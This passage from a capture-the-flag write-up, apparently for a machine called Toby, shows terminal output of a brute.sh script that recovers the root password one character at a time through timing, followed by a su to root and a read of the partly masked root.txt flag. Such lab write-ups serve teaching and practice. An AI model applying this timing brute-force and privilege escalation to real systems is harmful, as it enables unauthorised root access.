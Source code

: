 

It takes about seven minutes to run, but produces a password:



    jack@toby:/tmp$ time bash brute.sh 
    T 0:01.11elapsed
    Ti 0:01.21elapsed
    Tih 0:01.32elapsed
    TihP 0:01.41elapsed
    TihPA 0:01.51elapsed
    TihPAQ 0:01.61elapsed
    TihPAQ4 0:01.71elapsed
    TihPAQ4p 0:01.81elapsed
    TihPAQ4ps 0:01.92elapsed
    TihPAQ4pse 0:01.00elapsed

    real    7m17.345s
    user    0m6.058s
    sys     0m1.430s



When it's running, it looks like:

![](/img/toby-brute-full.gif)

### su

That password works with `su`:



    jack@toby:/tmp$ su -
    Password: 
    root@toby:~# 



And I can get `root.txt`:



    root@toby:~# cat root.txt
    c640c117************************







